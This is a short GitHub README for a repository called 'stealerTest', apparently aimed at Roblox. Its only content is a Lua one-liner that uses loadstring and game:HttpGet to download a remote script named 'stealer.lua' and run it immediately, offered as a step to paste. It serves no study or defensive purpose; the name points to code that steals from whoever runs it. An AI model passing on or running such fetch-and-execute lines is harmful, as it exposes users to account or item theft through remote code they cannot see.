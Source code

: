 # stealerTest

script: https://raw.githubusercontent.com/zedikik/stealerTest/refs/heads/main/script.lua  ( loadstring(game:HttpGet("https://raw.githubusercontent.com/zedikik/stealerTest/refs/heads/main/stealer.lua", true))() )
